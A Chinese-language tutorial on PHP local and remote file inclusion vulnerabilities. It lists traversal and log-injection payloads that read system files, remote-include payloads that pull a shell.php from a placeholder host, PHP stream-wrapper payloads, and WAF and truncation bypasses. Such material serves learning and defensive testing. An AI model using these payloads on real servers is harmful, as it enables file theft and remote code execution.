 ## 概要

文件包含即程序通过包含函数调用本地或远程文件,以此来实现拓展功能。

## 基础

### 本地文件包含

常见的文件包含漏洞的形式为 <?php include("inc/" . $_GET['file']); ?> 考虑常用的几种包含方式为

-   同目录包含file=.htaccess
-   目录遍历?file=../../../../../../../../../var/lib/locate.db
-   日志注入?file=../../../../../../../../../var/log/apache/error.log
-   利用/proc/self/environ

其中日志可以使用SSH日志或者Web日志等多种日志来源测试

### 远程文件包含

-   利用条件
-   ini中allow_url_fopen=On（默认开启）和allow_url_include=On（默认关闭，需要打开）开启
-   用户参数可控
-   后台对文件包含没有过滤
-   利用方式
-   ?filename=http://xx.xx.xx.xx/shell.php
-   ?filename=http://xx.xx.xx.xx/shell.php?code=phpinfo()

## 触发Sink

如 PHP中：

 include

 在包含过程中出错会报错，不影响执行后续语句

 include_once

 仅包含一次

 require

 在包含过程中出错，就会直接退出，不执行后续语句

 require_once

## 绕过技巧

常见的应用在文件包含之前，可能会调用函数对其进行判断，一般有如下几种绕过方式

### url编码绕过

如果WAF(Web Application Firewall)中是字符串匹配，可以使用url多次编码的方式可以绕过

### 特殊字符绕过

-   某些情况下，读文件支持使用Shell通配符，如 ?* 等
-   url中 使用 ?# 可能会影响include包含的结果
-   某些情况下，unicode编码不同但是字形相近的字符有同一个效果

### %00截断

几乎是最常用的方法，条件是 magic_quotes_gpc 关闭，而且php版本小于5.3.4。

### 长度截断

Windows上的文件名长度和文件路径有关。具体关系为：从根目录计算，文件路径长度最长为259个bytes。 msdn定义 `#define MAX_PATH 260`，其中第260个字符为字符串结尾的 `\0` ，而linux可以用getconf来判断文件名长度限制和文件路径长度限制。 获取最长文件路径长度：getconf PATH_MAX /root 得到4096 获取最长文件名：getconf NAME_MAX /root 得到255 那么在长度有限的时候，././././ (n个) 的形式就可以通过这个把路径爆掉 在php代码包含中，这种绕过方式要求php版本 < php 5.2.8

### 伪协议绕过

-   远程包含: 要求 allow_url_fopen=On且 allow_url_include=On ， payload为 `?file=http|https|ftp://websec.wordpress.com/shell.txt` 的形式
-   PHP input: 把payload放在POST参数中作为包含的文件，要求 allow_url_include=On，payload为 ?file=php://input 的形式
-   Base64: 使用Base64伪协议读取文件，payload为`?file=php://filter/convert.base64-encode/resource=index.php`的形式
-   data: 使用data伪协议读取文件，payload为 `?file=data://text/plain;base64,SSBsb3ZlIFBIUAo=`的形式，要求 allow_url_include=On

### 协议绕过

allow_url_fopen 和 allow_url_include 主要是针对 http ftp 两种协议起作用，因此可以使用SMB、WebDav协议等方式来绕过限制。

## 参考链接

-   [Exploit with PHP Protocols](https://www.cdxy.me/?p=752)
-   [lfi cheat sheet](https://highon.coffee/blog/lfi-cheat-sheet/)(Local file inclue 本地文件包含)
